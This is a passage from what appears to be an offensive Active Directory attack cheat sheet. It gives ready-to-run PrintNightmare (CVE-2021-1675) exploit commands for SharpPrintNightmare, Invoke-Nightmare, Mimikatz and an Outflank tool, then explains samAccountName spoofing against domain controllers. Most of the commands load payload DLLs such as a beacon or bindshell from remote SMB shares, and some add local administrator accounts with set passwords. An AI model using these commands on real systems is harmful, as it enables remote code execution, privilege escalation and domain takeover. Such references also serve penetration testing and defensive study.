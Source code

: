     SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll'  'C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL' '\\192.168.1.10' hackit.local domain_user Pass123
    ```
    
- [Invoke-Nightmare](https://github.com/calebstewart/CVE-2021-1675)
    
    ```powershell
    ## LPE only (PS1 + DLL)
    Import-Module .\cve-2021-1675.ps1
    Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default
    Invoke-Nightmare -DriverName "Dementor" -NewUser "d3m3nt0r" -NewPassword "AzkabanUnleashed123*" 
    Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
    ```
    
- [Mimikatz v2.2.0-20210709+](https://github.com/gentilkiwi/mimikatz/releases)
    
    ```powershell
    ## LPE
    misc::printnightmare /server:DC01 /library:C:\Users\user1\Documents\mimispool.dll
    ## RCE
    misc::printnightmare /server:CASTLE /library:\\10.0.2.12\smb\beacon.dll /authdomain:LAB /authuser:Username /authpassword:Password01 /try:50
    ```
    
- [PrintNightmare - @outflanknl](https://github.com/outflanknl/PrintNightmare)
    
    ```powershell
    PrintNightmare [target ip or hostname] [UNC path to payload Dll] [optional domain] [optional username] [optional password]
    ```
    

**Debug informations**

| Error | Message | Debug |
| --- | --- | --- |
| 0x5 | `rpc_s_access_denied` | Permissions on the file in the SMB share |
| 0x525 | `ERROR_NO_SUCH_USER` | The specified account does not exist. |
| 0x180 | unknown error code | Share is not SMB2 |

### samAccountName spoofing

> During S4U2Self, the KDC will try to append a '$' to the computer name specified in the TGT, if the computer name is not found. An attacker can create a new machine account with the sAMAccountName set to a domain controller's sAMAccountName - without the '$'. For instance, suppose there is a domain controller with a sAMAccountName set to 'DC$'. An attacker would then create a machine account with the sAMAccountName set to 'DC'. The attacker can then request a TGT for the newly created machine account. After the TGT has been issued by the KDC, the attacker can rename the newly created machine account to something different, e.g. JOHNS-PC. The attacker can then perform S4U2Self and request a ST to itself as any user. Since the machine account with the sAMAccountName set to 'DC' has been renamed, the KDC will try to find the machine account by appending a '$', which will then match the domain controller. The KDC will then issue a valid ST for the domain controller.
